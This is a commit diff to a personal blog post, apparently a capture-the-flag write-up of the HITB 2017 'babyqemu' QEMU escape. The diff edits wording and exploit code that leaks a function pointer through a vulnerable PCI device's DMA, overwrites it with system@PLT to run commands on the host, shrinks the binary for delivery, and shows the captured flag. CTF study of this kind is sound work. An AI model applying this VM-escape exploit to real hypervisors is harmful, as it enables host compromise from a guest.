

Before and after one commit to farazsth98/farazsth98.github.io, a Jekyll site: the page built from _posts/2018-11-22-Hitb-2017-babyqemu.md, in a window 1280 px wide and 1400 px high, scrolled down 6988 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
babyqemu fixing mistakes

```diff
--- a/_posts/2018-11-22-Hitb-2017-babyqemu.md
+++ b/_posts/2018-11-22-Hitb-2017-babyqemu.md
@@ -64,16 +64,16 @@ void hitb_class_init(ObjectClass *a1, void *data) {
 }
 {% endhighlight %}
 
-Initially IDA recognizes `pdev` as ObjectClass (which if this was C++ it would have been the base class), however if we change it's type to `PCIDeviceClass` which it should be after the cast, we will see the properties this PCI device is being registered with and 2 callbacks. Uninit is irrelevant to us as it just cleans up after the device has been unloaded. Moving on to the second callback `pci_hitb_realize`, this is where the memory for the MMIO is allocated, mmio ops and the thread that performs the DMA.
+Initially IDA recognizes `pdev` as ObjectClass (which if this was C++ it would have been the base class), however if we change its type to `PCIDeviceClass` which it should be after the cast, we will see the properties this PCI device is being registered with and 2 callbacks. Uninit is irrelevant to us as it just cleans up after the device has been unloaded. Moving on to the second callback `pci_hitb_realize`, this is where the memory for the MMIO is allocated, mmio ops and the thread that performs the DMA.
 
 {% highlight C %}
 //memory_region_init_io(MemoryRegion *mr, Object *owner, const MemoryRegionOps *ops, void *opaque, char *name, size_t size)
 memory_region_init_io(&pdev->mmio, &pdev->pdev.qdev.parent_obj, &hitb_mmio_ops, pdev, "hitb-mmio", 0x100000uLL);
 {% endhighlight %}
 
-Moving on to mmio ops we have `hitb_mmio_read` which can get us any relevant HitbState properties. `hitb_mmio_write` changes the state of the device and send commands to the DMA thread. I will condense the functionality of it to the relevant commands.
+Moving on to mmio ops we have `hitb_mmio_read` which can get us any relevant HitbState properties. `hitb_mmio_write` changes the state of the device and sends commands to the DMA thread. I will condense the functionality of it to the relevant commands.
 
-> When analyzing Hitb handlers such as the mmio ops, realize and the DMA thread don't forget to change the declaration of the handler's arguments from `void* opaque` to `HitbState*`
+> When analyzing Hitb handlers such as the mmio ops, realize and the DMA thread don't forget to change the declaration of the handler's arguments from `void* opaque` to `HitbState* hitb`
 
 {% highlight C %}
 void hitb_mmio_write(HitbState *hitb, hwaddr addr, uint32_t val, unsigned int size) {
@@ -177,11 +177,11 @@ The only thing left to figure out is where the mmio is actually mapped. For that
 # ls -la /sys/devices/pci0000\:00/0000\:00\:04.0/
 ...
 -r--r--r--    1 root     root          4096 Nov 23 19:24 resource
--rw-------    1 root     root       1048576 Nov 23 19:24 resource0 << Size matches
+-rw-------    1 root     root       1048576 Nov 23 19:24 resource0 # << Size matches
 ...
 {% endhighlight %}
 
-To interact with the mmio, we have 2 options (that I know of). Using the sysfs by mmap-ing the resource0 file like [pcimem](https://github.com/billfarrow/pcimem) does or we could use the `/dev/mem` device which represents the physical memory of the system. Since I've done it [before]({{site.url}}/exploitation/2018/05/17/BlizzardCTF-2017-Strng.html) with pcimem, this time I will use `/dev/mem`. `/dev/mem` addresses are interpreted as physical memory to access the mmio we need to open and mmap `/dev/mem` at offset `0xfea00000` and size `0x100000`.
+To interact with the mmio, we have 2 options (that I know of). Using the sysfs by mmap-ing the resource0 file like [pcimem](https://github.com/billfarrow/pcimem) does or we could use the [/dev/mem](https://stackoverflow.com/questions/12040303/how-to-access-physical-addresses-from-user-space-in-linux) device which represents the physical memory of the system. Since I've done it [before]({{site.url}}/exploitation/2018/05/17/BlizzardCTF-2017-Strng.html) with pcimem, this time I will use `/dev/mem`. `/dev/mem` addresses are interpreted as physical memory to access the mmio we need to open and mmap `/dev/mem` at offset `0xfea00000` and size `0x100000`.
 
 ## Exploitation
 
@@ -209,26 +209,24 @@ gdb-peda$ x/1000gx (*(HitbState*)0x5555587575f0)->dma_buf
 
 Thanks to the symbols we can see that the `hitb_enc` function pointer is right after the `dma_buf`, our goal is to leak that pointer and overwrite it with the address of `system@PLT` this way we can call `system` on the host with our controlled arguments from the guest.
 
-To resolve VA to PA from user-land we can use `/proc/self/pagemap` with the following function.
+To resolve VA to PA from user-land we can use [/proc/self/pagemap](http://fivelinesofcode.blogspot.com/2014/03/how-to-translate-virtual-to-physical.html) with the following function.
 
 {% highlight C %}
 #define PAGEMAP_LENGTH sizeof( size_t )
 
 size_t virt_to_phys( void* addr )
 {
-    FILE* fd = fopen( "/proc/self/pagemap", "rb" );
+    int fd = open( "/proc/self/pagemap", O_RDONLY );
 
     size_t offset = (size_t)addr / getpagesize() * PAGEMAP_LENGTH;
-    fseek( fd, offset, SEEK_SET );
+    lseek( fd, offset, SEEK_SET );
 
     size_t page_frame_number = 0;
-    fread( &page_frame_number, 1, PAGEMAP_LENGTH - 1, fd );
+    read( fd, &page_frame_number, PAGEMAP_LENGTH );
 
     page_frame_number &= 0x7FFFFFFFFFFFFF;
-    // mask off the 12 most significant bits because they
-    // are used for flags
 
-    fclose( fd );
+    close( fd );
 
     return ( page_frame_number << 12 ) | ( (size_t)addr & 0xfff );
 }
@@ -336,7 +336,7 @@ int main( void )
 
     // Get the physical address from /proc/self/pagemap
     size_t phys_dst = virt_to_phys( va );
-    printf( "elf_bss_phys: %p\n", (void*)phys_dst );
+    printf( "pa: %p\n", (void*)phys_dst );
 
     // Copy the hitb_enc function pointer to our allocated memory
     // using cpu_physical_memory_rw(dma.src, &hitb_enc, is_read)
@@ -347,9 +347,9 @@ int main( void )
     set_dma_cmd( COPY_TO_PA );
 
     // Sleep is requires so we don't race the DMA thread
-    while ( get_dma_cmd() & 1 ) {
+    do {
         sleep( 1 );
-    }
+    } while ( get_dma_cmd() & 1 );
 
     // Informational leak for qemu-system-x64 base load address
     va[0] -= 0x283dd0;
@@ -367,9 +367,9 @@ int main( void )
     set_dma_cmd( COPY_FROM_PA );
 
     // Sleep to wait the DMA thread
-    while ( get_dma_cmd() & 1 ) {
+    do {
         sleep( 1 );
-    }
+    } while ( get_dma_cmd() & 1 );
 
     // Copy the string for system in dma_buf[]
     // hitb_enc takes the dma_buf[] ptr
@@ -382,13 +382,13 @@ int main( void )
     set_dma_cmd( COPY_FROM_PA );
 
     // Wait for the DMA to finish again
-    while ( get_dma_cmd() & 1 ) {
+    do {
         sleep( 1 );
-    }
+    } while ( get_dma_cmd() & 1 );
 
     // call hitb_enc(hitb_buf)
     set_dma_src( 0x40000 );
-    set_dma_cmd( COPY_FROM_PA | HITB_ENC );
+    set_dma_cmd( COPY_TO_PA | HITB_ENC );
 
     munmap( va, 0x1000 );
     munmap( mmio, mmio_size );
@@ -396,21 +396,34 @@ int main( void )
 }
 {% endhighlight %}
 
-If we have to imagine a scenario where we have to deliver our exploit to the server and there's no compiler there, we would have to transfer a statically compiled version of our exploit. To reduce the size to a minimum we can use `musl-gcc` optimize for size and strip the symbols. We can reduce the size even further if we change the libc API to direct syscalls (per vakzz's suggestion).
+If we have to imagine a scenario where we have to deliver our exploit to the server and there's no compiler there, we would have to transfer a statically compiled version of our exploit. To reduce the size to a minimum we can use `musl-gcc`, optimize for size, and strip the symbols. We can reduce the size even further if we change the libc API to direct syscalls (per vakzz's suggestion).
 
 {% highlight bash %}
 [babyqemu] gcc      -static -s -Os -o exploit exploit.c
 [babyqemu] musl-gcc -static -s -Os -o exploit-min exploit.c
 [babyqemu] ls -la exploit*
--rwxr-xr-x 1 vagrant vagrant 778488 Nov 23 22:02 exploit
--rwxr-xr-x 1 vagrant vagrant  34304 Nov 23 22:02 exploit-min
--r--r--r-- 1 vagrant vagrant   3735 Nov 23 22:01 exploit.c
+-rwxr-xr-x 1 vagrant vagrant 778488 Nov 24 03:10 exploit
+-rwxr-xr-x 1 vagrant vagrant  26112 Nov 24 03:10 exploit-min
+-rw-r--r-- 1 vagrant vagrant   3726 Nov 24 03:08 exploit.c
 {% endhighlight %}
 
 To deliver the exploit locally we only need to append the file to the file system (the cpio archive).
 
 {% highlight bash %}
-[babyqemu] echo exploit | cpio -A -H newc -ov -F rootfs.cpio
-exploit
-1522 blocks
+[babyqemu] echo exploit-min | cpio -A -H newc -ov -F rootfs.cpio
+exploit-min
+52 blocks
 {% endhighlight %}
+
+{% highlight plain %}
+Welcome to HITB
+HITB login: root
+# /exploit-min
+va: 0x7f3657298000
+pa: 0x20ef000
+QEMU ELF BASE: 0x55a7d4645000
+Copying command
+# flagflagflag===FLAGFLAGFLAG
+
+#
+{% endhighlight %}
```
Also changed, not shown: other parts of _posts/2018-11-22-Hitb-2017-babyqemu.md (+6 -4 lines).
